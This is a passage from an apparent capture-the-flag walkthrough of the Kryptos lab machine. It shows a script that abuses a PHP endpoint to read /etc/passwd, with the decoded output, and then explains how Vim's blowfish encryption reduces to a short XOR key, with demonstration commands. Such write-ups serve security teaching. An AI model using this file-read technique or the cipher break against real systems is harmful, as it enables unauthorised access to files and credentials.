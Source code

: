 ```
# ./read.sh cat.php?0=/etc/passwd | base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rijndael:x:1001:1001:,,,:/home/rijndael:/bin/bash
mysql:x:107:113:MySQL Server,,,:/nonexistent:/bin/false
```

### Breaking `set cryptmethod=blowfish` in Vim

Long story short, I found a file `creds.txt`, which was encrypted by Blowfish (`set cryptmethod=blowfish`) in Vim. There isn\'t any weakness with Blowfish (a block cipher) per se, the weakness is how Vim chose to use Blowfish: the first 64-bytes or eight blocks (8-byte block) of plaintext are encrypted with the same IV, reducing the cryptosystem to a mere XOR operation of each block with a fixed-length XOR key (yes, a 8-byte key). You can see this weakness when you encrypt a plaintext of say, 24 characters of "A" for example, repeating bytes appear.

```
# perl -e 'print "A" x 24' > test.txt
# vim --cmd 'set cm=blowfish' -c 'set key=whatever' -c w -c q test.txt
# xxd test.txt
```

<a class="image-popup">
![577cde29.png](/assets/images/posts/kryptos-htb-walkthrough/577cde29.png)
</a>

